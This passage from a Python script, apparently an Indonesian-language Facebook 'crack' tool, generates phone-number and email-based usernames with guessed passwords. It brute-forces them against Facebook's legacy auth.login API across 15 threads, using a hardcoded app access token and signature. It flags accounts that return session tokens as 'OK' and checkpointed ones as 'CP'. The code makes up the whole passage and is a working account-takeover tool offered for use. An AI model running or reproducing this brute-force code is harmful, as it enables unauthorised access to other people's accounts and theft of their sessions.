 		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

### CRACK EMAIL & PHONE ###

def random_numbers():
  data = []
  print((k+"\n["+p+"•"+k+"]"+p+" Nomor Harus 5 Angka"))
  print((k+"["+p+"•"+k+"]"+p+" Contoh : 92037"))
  kode=str(input(k+"["+p+"•"+k+"]"+p+" Masukkan Nomor : "))
  exit((k+"\n["+p+"!"+k+"]"+p+" Nomor Harus 5 Angka")) if len(kode) < 5 else ''
  exit((k+"\n["+p+"!"+k+"]"+p+" Nomor Harus 5 Angka")) if len(kode) > 5 else ''
  jml=int(input(k+"["+p+"•"+k+"]"+p+" Amount : "))
  [data.append({'user': str(e), 'pw':[str(e[5:]), str(e[6:])]}) for e in [str(kode)+''.join(['%s'%(randint(0,9)) for i in range(0,7)]) for e in range(jml)]]
  print(k+"\n["+p+"•"+k+"]"+p+" Proses Crack Sedang Berjalan...\n")
  with concurrent.futures.ThreadPoolExecutor(max_workers=15) as th:
    {th.submit(brute, user['user'], user['pw']): user for user in data}
  input(k+"\n[ "+p+"Kembali"+k+" ]"+p)
  menu()

def random_email():
  data = []
  nama=input(k+"\n["+p+"•"+k+"]"+p+" Nama Target : ")
  domain=input(k+"["+p+"•"+k+"]"+p+" Pilih Domain [G]mail, [Y]ahoo, [H]otmail : ").lower().strip()
  list={
    'g':'@gmail.com',
    'y':'@yahoo.com',
    'h':'@hotmail.com'
  }
  exit((k+"["+p+"•"+k+"]"+p+" Fill In The Correct")) if not domain in ['g','y','h'] else ''
  jml=int(input(k+"["+p+"•"+k+"]"+p+" Amount : "))
  setpw=input(k+"["+p+"•"+k+"]"+p+" Set Password : ").split(',')
  print(k+"\n["+p+"•"+k+"]"+p+" Proses Crack Sedang Berjalan...\n")
  [data.append({'user': nama+str(e)+list[domain], 'pw':[(i) for i in setpw]}) for e in range(1,jml+1)]
  with concurrent.futures.ThreadPoolExecutor(max_workers=15) as th:
    {th.submit(brute, user['user'], user['pw']): user for user in data}
  input(k+"\n[ "+p+"Kembali"+k+" ]"+p)
  menu()

def brute(user, passs):
  try:
    for pw in passs:
      params={
        'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',
        'format': 'JSON',
        'sdk_version': '2',
        'email': user,
        'locale': 'en_US',
        'password': pw,
        'sdk': 'ios',
        'generate_session_cookies': '1',
        'sig': '3f555f99fb61fcd7aa0c44f58f522ef6',
      }
      api='https://b-api.facebook.com/method/auth.login'
      response=requests.get(api, params=params)
      if re.search('(EAAA)\w+', str(response.text)):
        print('\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s '%(str(user), str(pw)))
        break
      elif 'www.facebook.com' in response.json()['error_msg']:
        print('\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s '%(str(user), str(pw)))